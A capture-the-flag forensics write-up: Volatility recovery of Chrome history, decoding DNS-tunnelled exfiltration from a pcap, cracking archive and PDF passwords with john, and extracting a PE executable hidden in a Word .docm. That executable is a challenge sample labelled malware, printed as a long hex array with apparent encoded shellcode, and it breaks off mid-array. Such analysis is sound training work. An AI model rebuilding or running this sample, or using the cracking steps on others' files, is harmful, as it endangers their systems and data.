# Forensic

<!-- challenge-index: a3ba57f81b8fdb20 -->

| Challenge | Topic |
| --- | --- |
| [Portugal (100 pts)](#portugal-100-pts) | Windows Memory Forensics, Browser Artifacts |
| [Sussy (100 pts)](#sussy-100-pts) | DNS Tunneling, Archive Recovery |
| [saveme (100 pts)](#saveme-100-pts) | Office Documents, .NET Ransomware |
| [Sharing is Not Caring (257 pts)](#sharing-is-not-caring-257-pts) | Disk Forensics, Network Traffic |
| [Snooz (436 pts)](#snooz-436-pts) | Memory Forensics, PCAP, AES |

<!-- /challenge-index -->

## Portugal (100 pts)

### Description

I accidentally left my computer unlocked at the coffee shop while I stepped away. I'm sure that someone took advantage of the opportunity and was searching for something.

Author : **d33znu75**

### Solution

Given memory dump, analyze the running process using volatility.

```
python .\vol.py -f .\ctf\akasec\portugal\memdump1.mem windows.pslist
```

<figure><figcaption></figcaption></figure>

From the description we know that someone was searching for something and we can see on the running process there are chrome process. Chrome store the history on history file, so lets take a look on list file on the memory.

```
python .\vol.py -f .\ctf\akasec\portugal\memdump1.mem windows.filescan
```

<figure><figcaption></figcaption></figure>

So there is history chrome file at 0x81595680, lets dump the history file.

```
python .\vol.py -f .\ctf\akasec\portugal\memdump1.mem -o .\ctf\akasec\portugal\ windows.dumpfiles --virtaddr 0x81595680
```

<figure><figcaption></figcaption></figure>

We can't directly open the database using sqlite3 because it's not valid sqlite3 (maybe some trailer error). But we still can see the content of the database by utilizing strings command.

```
strings file.0x81595680.0x98570f60.DataSectionObject.History.dat > history.dump
```

There are some suspicious strings

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Integer before the string actually the index of the string, so we need to sort the pairs of index and value then combine it.

```python
dict = {}
dict[17] = 'rc'
dict[17] = 'rc'
dict[17] = 'rc'
dict[13] = 'r0'
dict[13] = 'r0'
dict[13] = 'r0'
dict[6] = '4t'
dict[6] = '4t'
dict[6] = '4t'
dict[17] = 'rc'
dict[17] = 'rc'
dict[13] = 'r0'
dict[13] = 'r0'
dict[6] = '4T'
dict[6] = '4T'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[18] = 'h_'
dict[18] = 'h_'
dict[14] = 'm3'
dict[14] = 'm3'
dict[1] = 'AK'
dict[1] = 'AK'
dict[2] = 'AS'
dict[2] = 'AS'
dict[2] = 'AS'
dict[2] = 'AS'
dict[2] = 'AS'
dict[2] = 'AS'
dict[1] = 'AK'
dict[1] = 'AK'
dict[1] = 'AK'
dict[1] = 'AK'
dict[3] = 'EC'
dict[3] = 'EC'
dict[3] = 'EC'
dict[3] = 'EC'
dict[3] = 'EC'
dict[3] = 'EC'
dict[3] = 'EC'
dict[3] = 'EC'
dict[2] = 'AS'
dict[2] = 'AS'
dict[1] = 'AK'
dict[1] = 'AK'
dict[8] = '1T'
dict[8] = '1T'
dict[7] = '1L'
dict[7] = '1L'
dict[6] = '4T'
dict[6] = '4T'
dict[5] = '0L'
dict[5] = '0L'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[5] = '0L'
dict[5] = '0L'
dict[5] = '0L'
dict[5] = '0L'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[4] = '%7BV'
dict[13] = 'r0'
dict[13] = 'r0'
dict[12] = 'ch'
dict[12] = 'ch'
dict[10] = 'f0'
dict[10] = 'f0'
dict[11] = 'r_'
dict[11] = 'r_'
dict[1] = 'AK'
dict[1] = 'AK'
dict[14] = 'm3'
dict[14] = 'm3'
dict[16] = '34'
dict[16] = '34'
dict[15] = '_s'
dict[15] = '_s'
dict[17] = 'rc'
dict[17] = 'rc'
dict[5] = '0L'
dict[5] = '0L'
dict[3] = 'EC'
dict[3] = 'EC'
dict[20] = 'st'
dict[20] = 'st'
dict[2] = 'AS'
dict[2] = 'AS'
dict[19] = 'h1'
dict[19] = 'h1'
dict[22] = 'y'
dict[22] = 'y'
dict[21] = '0r'
dict[21] = '0r'
dict[7] = '1L'
dict[7] = '1L'
dict[8] = '1T'
dict[8] = '1T'
dict[9] = 'Y_'
dict[9] = 'Y_'
dict[9] = 'Y_'
dict[9] = 'Y_'
dict[8] = '1T'
dict[8] = '1T'
dict[8] = '1T'
dict[8] = '1T'
dict[9] = 'Y_'
dict[9] = 'Y_'
dict[12] = 'ch'
dict[12] = 'ch'
dict[11] = 'r_'
dict[11] = 'r_'
dict[10] = 'f0'
dict[10] = 'f0'
dict[18] = 'h_'
dict[18] = 'h_'
dict[21] = '0r'
dict[21] = '0r'
dict[19] = 'h1'
dict[19] = 'h1'
dict[20] = 'st'
dict[20] = 'st'
dict[22] = 'y'
dict[22] = 'y'
dict[17] = 'rc'
dict[17] = 'rc'
dict[16] = '34'
dict[15] = '_s'
dict[15] = '_s'
dict[14] = 'm3'
dict[14] = 'm3'
dict[13] = 'r0'
dict[13] = 'r0'
dict[12] = 'ch'
dict[12] = 'ch'
dict[11] = 'r_'
dict[11] = 'r_'
dict[10] = 'f0'
dict[10] = 'f0'
dict[9] = 'y_'
dict[9] = 'y_'
dict[16] = '34'
dict[16] = '34'
dict[16] = '34'
dict[15] = '_s'
dict[15] = '_s'
dict[14] = 'm3'
dict[14] = 'm3'
dict[13] = 'r0'
dict[13] = 'r0'
dict[13] = 'r0'
dict[13] = 'r0'
dict[14] = 'm3'
dict[14] = 'm3'
dict[16] = '34'
dict[16] = '34'
dict[16] = '34'
dict[16] = '34'
dict[15] = '_s'
dict[15] = '_s'
dict[15] = '_s'
dict[15] = '_s'
dict[14] = 'm3'
dict[14] = 'm3'
dict[14] = 'm3'
dict[14] = 'm3'
dict[6] = '4T'
dict[6] = '4T'
dict[5] = '0L'
dict[5] = '0L'
dict[9] = 'Y_'
dict[9] = 'Y_'
dict[8] = '1T'
dict[8] = '1T'
dict[7] = '1L'
dict[7] = '1L'
dict[15] = '_s'
dict[15] = '_s'
dict[16] = '34'
dict[16] = '34'
dict[15] = '_s'
dict[15] = '_s'
dict[14] = 'm3'
dict[14] = 'm3'
dict[16] = '34'
dict[16] = '34'
dict[22] = 'y'
dict[22] = 'y'
dict[17] = 'rc'
dict[17] = 'rc'
dict[20] = 'st'
dict[20] = 'st'
dict[20] = 'st'
dict[20] = 'st'
dict[22] = 'y'
dict[22] = 'y'
dict[22] = 'y'
dict[22] = 'y'
dict[17] = 'rc'
dict[17] = 'rc'
dict[21] = '0r'
dict[21] = '0r'
dict[19] = 'h1'
dict[19] = 'h1'
dict[20] = 'st'
dict[20] = 'st'
dict[18] = 'h_'
dict[18] = 'h_'
dict[22] = 'y'
dict[22] = 'y'
dict[18] = 'h_'
dict[18] = 'h_'
dict[21] = '0r'
dict[21] = '0r'
dict[19] = 'h1'
dict[19] = 'h1'
dict[20] = 'st'
dict[20] = 'st'
dict[22] = 'y'
dict[22] = 'y'
dict[20] = 'st'
dict[20] = 'st'
dict[19] = 'h1'
dict[19] = 'h1'

flag = ""
for i in range(1, 23):
	flag += dict[i]
print(flag + "}")
```

<figure><figcaption></figcaption></figure>

Flag: AKASEC{V0L4T1L1TY\_f0r\_chr0m3\_s34rch\_h1st0ry}

## Sussy (100 pts)

### Description

Something Fishy's Going on in Our Network

Author : **d33znu75**

### Solution

Given pcap file, open it using wireshark. The first packet looks suspicious.

<figure><figcaption></figcaption></figure>

If we decode the domain we will get value below

<figure><figcaption></figcaption></figure>

Looks like 7z header, so lets do scripting to dump the the 7z file from the subdomain. Convert the pcapng to pcap file.

```
editcap -F libpcap packet.pcapng new.pcap
```

```python
# original : https://github.com/josemlwdf/DNScat-Decoder/blob/main/dnscat_decoder.py
import re
import binascii
from string import printable
import os
import argparse
import subprocess
import sys

def check_tshark_installed():
    try:
        subprocess.run(['tshark', '-v'], stdout=subprocess.PIPE, stderr=subprocess.PIPE, check=True)
        print("tshark is already installed.")
    except subprocess.CalledProcessError as e:
        print("tshark is not installed.")
        choice = input("Do you want to install tshark? (Y/N): ").lower()

        if choice == 'y':
            try:
                if sys.platform.startswith('linux'):
                    subprocess.run(['sudo', 'apt-get', 'install', '-y', 'tshark'])
                elif sys.platform.startswith('darwin'):
                    subprocess.run(['brew', 'install', 'wireshark'])
                elif sys.platform.startswith('win'):
                    print("Please download Wireshark from https://www.wireshark.org/download.html and install it manually.")
                else:
                    print("Unsupported platform. Please install Wireshark manually.")
            except subprocess.CalledProcessError as install_error:
                print(f"Installation failed: {install_error}")
        else:
            print("Installation aborted.")


def extract_tcp_streams_from_pcap(pcap_file, bad_domain):
    raw_data = os.popen('tshark -r '+ pcap_file + ' -Tfields -e dns.qry.name').read()

    extracted_data = ''
    last_result = b""
    last_query = b""
    for packet in raw_data.splitlines():
        result = re.findall('([a-z0-9\.]+)\.' + bad_domain, packet)
        if result:
            bytes_data = binascii.unhexlify(result[0].replace('.' + bad_domain, '').replace('.', ''))
            packet_data = bytes_data
            if last_query != bytes_data:
                last_result += packet_data
                last_query = bytes_data
            else:
                continue

    out = open("dump.7z", "wb")
    out.write(last_result)
    return last_result


def main():
    parser = argparse.ArgumentParser(description='Extract TCP streams from a pcap file.')
    parser.add_argument('file', help='Path to the input pcap file')
    parser.add_argument('domain', help='Domain used by dnscat')
    args = parser.parse_args()
    pcap_file = args.file
    bad_domain = args.domain

    check_tshark_installed()

    extracted_data = extract_tcp_streams_from_pcap(pcap_file, bad_domain)


if __name__ == "__main__":
    main()
```

```
python3 dec.py new.pcap "akasec.ma"
```

7z file protected with password, crack it using john with rockyou as wordlist. Got the password `hellokitty` then get pdf file named flag. It also protected with password, crack it using john again. Got the password `meow`.

<figure><figcaption></figcaption></figure>

Open the pdf file and got the flag

<figure><figcaption></figcaption></figure>

Flag: AKASEC{PC4P\_DNS\_3xf1ltr4t10n\_D0n3!!}

## saveme (100 pts)

### Description

You know what to do. Get after it!

WARNING:"It's a malware, BE CAREFUL"

Author: **samaqlo**

### Solution

Given docm file, look on the macro with olevba and oleid.

<figure><figcaption></figcaption></figure>

Looks like there is no embedded macro on the docm file. Lets try to unzip the file.

<figure><figcaption></figcaption></figure>

at word/document.xml there are suspicious values which are consist of hex strings. We can also validate it through opening the docm and there are some text in white color. The first 2 bytes looks like a valid PE signature.

<figure><figcaption></figcaption></figure>

Lets dump the whole PE file.

```python
a = ['&H4D&H5A&H90&H00&H03&H00&H00&H00&H04&H00&H00&H00&HFF&HFF&H00&H00&HB8&H00&H00&H00&H00&H00&H00&H00&H40&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H80&H00&H00&H00&H0E&H1F&HBA&H0E&H00&HB4&H09&HCD&H21&HB8&H01&H4C&HCD&H21&H54&H68&H69&H73&H20&H70&H72&H6F&H67&H72&H61&H6D&H20&H63&H61&H6E&H6E&H6F&H74&H20&H62&H65&H20&H72&H75&H6E&H20&H69&H6E&H20&H44&H4F&H53&H20&H6D&H6F&H64&H65&H2E&H0D&H0D&H0A&H24&H00&H00&H00&H00&H00&H00&H00&H50&H45&H00&H00&H4C&H01&H03&H00&H33&H5F&HEC&H22&H00&H00&H00&H00&H00&H00&H00&H00&HE0&H00&H0F&H03&H0B&H01&H02&H38&H00&H02&H00&H00&H00&H0E&H00&H00&H00&H00&H00&H00&H00&H10&H00&H00&H00&H10&H00&H00&H00&H20&H00&H00&H00&H00&H40&H00&H00&H10&H00&H00&H00&H02&H00&H00&H04&H00&H00&H00&H01&H00&H00&H00&H04&H00&H00&H00&H00&H00&H00&H00&H00&H40&H00&H00&H00&H02&H00&H00&H46&H3A&H00&H00&H02&H00&H00&H00&H00&H00&H20&H00&H00&H10&H00&H00&H00&H00&H10&H00&H00&H10&H00&H00&H00&H00&H00&H00&H10&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H30&H00&H00&H64&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H2E&H74&H65&H78&H74&H00&H00&H00&H28&H00&H00&H00&H00&H10&H00&H00&H00&H02&H00&H00&H00&H02&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H20&H00&H30&H60&H2E&H64&H61&H74&H61&H00&H00&H00&H90&H0A&H00&H00&H00&H20&H00&H00&H00&H0C&H00&H00&H00&H04&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H20&H00&H30&HE0&H2E&H69&H64&H61&H74&H61&H00&H00&H64&H00&H00&H00&H00&H30&H00&H00&H00&H02&H00&H00&H00&H10&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H40&H00&H30&HC0&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&HB8&H00&H20&H40&H00&HFF&HE0&H90&HFF&H25&H38&H30&H40&H00&H90&H90&H00&H00&H00&H00&H00&H00&H00&H00&HFF&HFF&HFF&HFF&H00&H00&H00&H00&HFF&HFF&HFF&HFF&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&HDA&HD9&HB8&H8A&H0C&H44&H06&HD9&H74&H24&HF4&H5D&H29&HC9&H66&HB9&H04&H02&H83&HED&HFC&H31&H45&H16&H03&H45&H9C&HEE&HB1&H37&H60&H86&H31&H28&H20&H57&H26&HB7&H90&H33&H2F&H67&H2C&H53&HAD&H68&HCC&HA4&HD2&HE1&H29&H95&HD2&H96&H3A&H86&HE2&HDD&H6E&H2B&H88&HB0&H9A&HB8&HFC&H1C&HAD&H09&H4A&H7B&H80&H8A&HE7&HBF&H83&H08&HFA&H93&H63&H30&H35&HE6&H62&H75&H28&H0B&H36&H2E&H26&HBE&HA6&H5B&H72&H03&H4D&H17&H92&H03&HB2&HE0&H95&H22&H65&H7A&HCC&HE4&H84&HAF&H64&HAD&H9E&HAC&H41&H67&H15&H06&H3D&H76&HFF&H56&HBE&HD5&H3E&H57&H4D&H27&H07&H50&HAE&H52&H71&HA2&H53&H65&H46&HD8&H8F&HE0&H5C&H7A&H5B&H52&HB8&H7A&H88&H05&H4B&H70&H65&H41&H13&H95&H78&H86&H28&HA1&HF1&H29&HFE&H23&H41&H0E&HDA&H68&H11&H2F&H7B&HD5&HF4&H50&H9B&HB6&HA9&HF4&HD0&H5B&HBD&H84&HBB&H31&H40&H1A&HC6&H74&H42&H24&HC8&H28&H2B&H15&H43&HA7&H2C&HAA&H86&H83&HC3&HE0&H8A&HA2&H4B&HAD&H5F&HF7&H11&H4E&H8A&H34&H2C&HCD&H3E&HC5&HCB&HCD&H4B&HC0&H90&H49&HA0&HB8&H89&H3F&HC6&H6F&HA9&H15&HB6&HE0&H22&HF3&H44&H8C&HA4&H9E&HC4&H1E&H15&H43&H5D&H9A&H0D&HAB&H13&H41&HD9&H86&HE4&HEB&H4F&HBC&H99&H9F&HAF&H70&H38&H14&H9E&HFB&HA7&HB6&H9D&H6F&H4E&H52&H4C&H04&HB9&HB2&HF4&H8B&HCE&HA4&H98&H3C&H51&H5D&H32&H